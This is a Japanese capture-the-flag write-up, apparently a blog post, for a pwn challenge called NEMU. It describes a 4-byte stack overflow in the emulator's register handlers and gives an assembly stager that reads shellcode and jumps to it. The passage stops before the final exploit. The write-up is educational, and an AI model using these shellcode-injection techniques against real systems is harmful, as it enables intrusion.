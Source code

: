 # NEMU
## 方針
- 有効になっているセキュリティ機構を調べるとNXが無効になっているため、スタック上にshell codeを置いてそこに飛ばすことを考える。
- mov, inc, dbl, add関数を見てみると各レジスタは4byteで定義されているにも関わらず8byte単位で書き込みを行っており、4byte overflowを起こせることが分かる。
- 命令を実行するとop_fpに各命令に対応した関数のアドレスが入り、以下の部分で呼び出される。
```c: main.c#L101
    ((void (*)(uint64_t))op_fp)(((uint64_t(*)())read_fp)());
```
デバッグしていて気付いたのだが各関数の呼び出し時には直接関数の処理に飛んでいるわけではなくまずスタック上のコードに飛びそこから関数を呼び出すという流れになっている。例えばadd関数の呼び出しを追ってみると以下のようになる。

![](https://storage.googleapis.com/zenn-user-upload/3e68c2181ea1-20230422.png =500x)

0x7fffffffd9c0(スタック上)にある処理が実行され、そこからadd関数に飛んでいることが分かる。
各関数を呼ぶ際に**スタック上に置かれている処理が実行される**ので、これを書き変えて任意の処理を実行する方針で行く。

## exploit
まずr0, r1, r2, r3のアドレスを調べておく。mov関数にbreak pointを張って順番に調べていくと以下のようになった。
```
&r0 = 0x7fffffffd9b0
&r1 = 0x7fffffffd9bc 
&r2 = 0x7fffffffd9b8
&r3 = 0x7fffffffd9b4
```
つまりスタック上の配置は以下のようになっている。
```
r0
r3
r2
r1
```
先ほどadd命令を実行した際、実行されていたのは0x7fffffffd9c0にある処理だった。このアドレスと&r1の差はなんと都合のいいことに**4byte**なのである。mov, inc, dbl, add関数では書き込みが8byte単位で行われていたために4byte overflowができたのだった。r1をoverflowすることでこの部分を書き変えることができる。
r0, r3, r2, r1には自由に書き込みができるのでこの部分にshellcodeを置いておき、&r0に実行を移すことを考える。しかしこの部分はシェルを起動するシェルコードを書きこむには小さすぎるので以下のstagerを書き込むことにした。
```nasm: stager.s
    .intel_syntax noprefix
    .global _start 

_start:
    add rdi, 0x10
    xchg rdi, rsi
    xchg eax, edx
    syscall 
    jmp rsi
```
このstagerはread system callを呼び出して&r0 + 0x10に入力を読み込む。shellcodeの長さができるだけ小さくなるように工夫してある。最終的にopecode: 6(ADD), operand: r0を実行することでこの部分に処理を移す。(後述)これが実行される際にレジスタに入っている値を見てみると以下のようになっていた。

![](https://storage.googleapis.com/zenn-user-upload/255b90ee77b7-20230422.png =500x)
